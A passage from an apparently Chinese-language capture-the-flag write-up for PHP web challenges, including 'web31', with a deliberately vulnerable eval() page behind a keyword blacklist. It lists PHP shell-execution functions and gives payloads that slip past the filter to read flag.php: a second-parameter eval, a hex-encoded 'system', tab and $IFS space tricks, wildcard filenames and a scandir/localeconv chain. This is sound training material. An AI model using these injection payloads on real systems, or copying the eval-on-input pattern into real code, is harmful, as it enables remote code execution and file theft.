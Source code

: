

可以使用其他函数

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec()
```



```
c=echo exec('nl fla?????');
c=echo `nl fla''g.p''hp`;
c=echo `nl fla?????`;
```



## web31

```
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```



```
c=eval($_GET[1]);&1=system('nl flag.php');//只过滤了c，1可以继续使用空格
c=highlight_file(next(array_reverse(scandir(dirname(__FILE__)))));
c=show_source(next(array_reverse(scandir(pos(localeconv())))));
c=echo(`nl%09fl[abc]*`);//%09就是tab,[abc]也是正则的一种
c="\x73\x79\x73\x74\x65\x6d"("nl%09fl[a]*");等价于system()
c=echo`strings%09f*`;
c=echo`strings\$IFS\$9f*`必须加转义字符
```



```
show_source(next(array_reverse(scandir(pos(localeconv())))));

scandir('.')这个函数的作用是扫描当前目录
localeconv()函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是.
pos()/current()函数返回数组第一个值
array_reverse()是将数组颠倒
next()将数组指针一项下一位
show_source()的意思是读取函数内容
```
